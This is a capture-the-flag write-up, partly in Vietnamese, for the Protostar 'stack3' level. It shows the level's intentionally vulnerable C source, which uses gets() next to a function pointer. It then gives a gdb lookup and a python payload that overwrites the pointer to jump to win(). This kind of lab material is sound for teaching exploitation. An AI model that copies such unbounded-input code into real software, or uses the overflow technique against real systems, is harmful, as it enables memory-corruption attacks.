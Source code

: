 # STACK THREE

## About

Stack3 looks at environment variables, and how they can be set, and overwriting function pointers stored on the stack (as a prelude to overwriting the saved EIP)

Hints

  * both gdb and objdump is your friend you determining where the win() function lies in memory.

This level is at /opt/protostar/bin/stack3

## Source code

```C
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

void win()
{
  printf("code flow successfully changed\n");
}

int main(int argc, char **argv)
{
  volatile int (*fp)();
  char buffer[64];

  fp = 0;

  gets(buffer);

  if(fp) {
      printf("calling function pointer, jumping to 0x%08x\n", fp);
      fp();
  }
}
```

## Solutions

`STACK THREE` quay lại với khai thác buffer overflow thông qua hàm nhập stdin gets().

Trong source code ta thấy hàm main khai báo một con trỏ hàm `volatile int (*fp)();`, con trỏ này nhận giá trị bằng 0 và nếu được thay đổi thỏa mãn điều kiện != 0 nó sẽ được gọi và chuyển flow chương trình tới địa chỉ mà nó trỏ tới. Và đề bài yêu cầu flow đến hàm `win()`, vậy nên điều đầu tiên đó là tìm địa chỉ của `win()` và sau đó ghi đè nó vào con trỏ hàm fp.

Tìm địa chỉ hàm win() qua gdb:

```
root@protostar:/opt/protostar/bin# gdb -q ./stack3                                                      
Reading symbols from /opt/protostar/bin/stack3...done.                                                  
(gdb) set disassembly-flavor intel                                                                      
(gdb) p win                                                                                             
$1 = {void (void)} 0x8048424 <win>                                                                      
(gdb)  
```

Việc tiếp theo là overwrite vào biến `fp` với giá trị là địa chỉ `win()` đã tìm ra ở trên:

```
root@protostar:/opt/protostar/bin# python -c 'print "A" * 64 + "\x24\x84\x04\x08"' | ./stack3           
calling function pointer, jumping to 0x08048424                                                         
code flow successfully changed
```

## Documents

<https://en.wikipedia.org/wiki/Stack-based_memory_allocation>

<https://www.educative.io/edpresso/what-is-gets-in-c>

<https://en.wikipedia.org/wiki/Endianness>



